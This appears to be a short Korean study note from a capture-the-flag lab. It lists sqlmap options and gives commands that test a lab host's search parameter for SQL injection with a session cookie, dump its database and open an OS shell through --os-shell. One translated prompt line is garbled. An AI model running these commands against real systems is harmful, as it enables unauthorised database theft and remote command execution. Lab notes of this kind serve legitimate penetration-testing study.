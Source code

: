 sqlmap
#
`options`
```
--batch             사용자 입력을 요청하지 않음, 기본 동작 사용
--dump              DBMS 데이터베이스 테이블 항목 덤프
-a, --all           Retrieve everything
--forms             페이지의 <form> 요소에서 매개변수를 자동으로 선택
```
#
`URL과 쿠키로 취약점 찾기`

```
sqlmap -u 'http://10.129.240.57/dashboard.php?search=<any query>' --cookie="PHPSESSID=v9rdjfcg7hj8cmmauhnf1vj5pv"
```
찾으면서 뭐 많이 물어봄
```
got a 302 redirect to 'http://10.129.240.57:80/index.php'. Do you want to follow? [Y/n] y
302에서 'http://10.http.240.57:80/index.http'로 리디렉션되었습니다.

it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? 
최소 하나의 다른 (잠재적) 기법이 발견되지 않은 경우 기본 유니언 테스트만 수행할 것을 권장합니다. 요청 수를 줄이시겠습니까?

injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'?
NULL 값으로 주입을 이용할 수 없습니다. '--union-char' 옵션에 대해 임의의 정수 값을 사용하시겠습니까?
```

![image](https://user-images.githubusercontent.com/61821641/150571358-e8e72825-ceac-47b2-9aca-9a681d5f070f.png)
#
`--os-shell flag 추가`

```
sqlmap --os-shell -u 'http://10.129.240.57/dashboard.php?search=<any query>' --cookie="PHPSESSID=v9rdjfcg7hj8cmmauhnf1vj5pv" 
```


